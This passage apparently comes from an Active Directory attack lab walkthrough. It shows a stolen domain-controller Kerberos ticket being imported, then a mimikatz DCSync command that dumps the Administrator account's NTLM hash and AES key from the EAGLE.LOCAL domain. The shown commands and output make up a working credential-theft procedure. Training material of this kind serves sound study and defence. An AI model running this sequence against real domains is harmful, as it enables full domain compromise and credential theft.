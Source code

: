 ```
[*] Action: Import Ticket
[+] Ticket successfully imported!
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x101394

Cached Tickets: (1)

#0>     Client: DC1$ @ EAGLE.LOCAL
        Server: krbtgt/EAGLE.LOCAL @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 4/21/2023 8:54:04 (local)
        End Time:   4/21/2023 18:54:04 (local)
        Renew Time: 4/28/2023 8:54:04 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
Then, a DCSync attack can be executed through mimikatz, essentially by replicating what we did in the DCSync section.

```
PS C:\Users\bob\Downloads\mimikatz_trunk\x64> .\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:eagle.local /user:Administrator
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 02.00.00
Password last change : 07/08/2022 21.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
```
